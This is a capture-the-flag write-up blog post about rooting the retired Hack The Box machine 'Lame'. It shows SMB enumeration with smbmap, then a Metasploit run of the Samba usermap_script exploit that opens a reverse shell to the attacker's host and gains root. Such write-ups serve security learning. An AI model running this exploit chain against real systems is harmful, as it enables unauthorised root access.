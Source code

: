 ```yaml
---
layout: post
title:  "HTB: Lame"
date:   2021-03-05 20:30:00 +1100
category: hacking
---
```


## Sorting
I signed up for VIP and ordered the retired machines by owns, descending. I figured this was a reasonable proxy for difficulty, ignoring the user supplied ratings. That meant the first box was Lame. I have heard of it but I've never done it and I don't know anything about it.

## Ports
We've got FTP, SSH, and SMB on 139/445. It's a Linux box.

## FTP
We've got anonymous login. It's VSFTPD 2.3.4 which was a version that got [backdoored](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html) however some enumeration indicates we don't have the vulnerable version. We don't seem to be able to put files and there are no files available on the server. Let's move on.

## SMB
Really this is all we've got left. We can get some information:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/lame]
└─# smbmap -d workgroup -H 10.10.10.3 
[+] IP: 10.10.10.3:445  Name: hackthebox.gr                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
{% endhighlight %}

Okay, we have a writeable share. We'll go with Metasploit, even though I don't usually:

{% highlight shell %}
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)

msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.14.2
lhost => 10.10.14.2
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Command shell session 1 opened (10.10.14.2:4444 -> 10.10.10.3:54197) at 2021-03-05 04:16:07 -0500

id;hostname;uname -a;date
uid=0(root) gid=0(root)
lame
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
Fri Mar  5 04:34:19 EST 2021
{% endhighlight %}

No doubt they get more difficult from here!
